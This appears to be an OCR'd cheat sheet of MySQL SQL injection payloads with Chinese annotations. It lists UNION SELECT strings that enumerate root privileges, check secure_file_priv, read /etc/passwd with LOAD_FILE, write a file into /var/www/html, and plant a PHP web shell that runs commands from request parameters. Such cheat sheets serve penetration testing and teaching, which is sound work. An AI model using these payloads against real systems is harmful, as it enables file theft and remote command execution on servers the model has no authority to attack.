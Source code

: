 cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -	|查找是否所有用户权限
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -	|查找可以通过MySQL访问的目录
文件注入	
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -	|读取本地文件
select 'file written successfully!' into outfile '/var/www/html/proof.txt'	|将字符串写入本地文件
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -	|将 Web Shell 写入基本 Web 目录




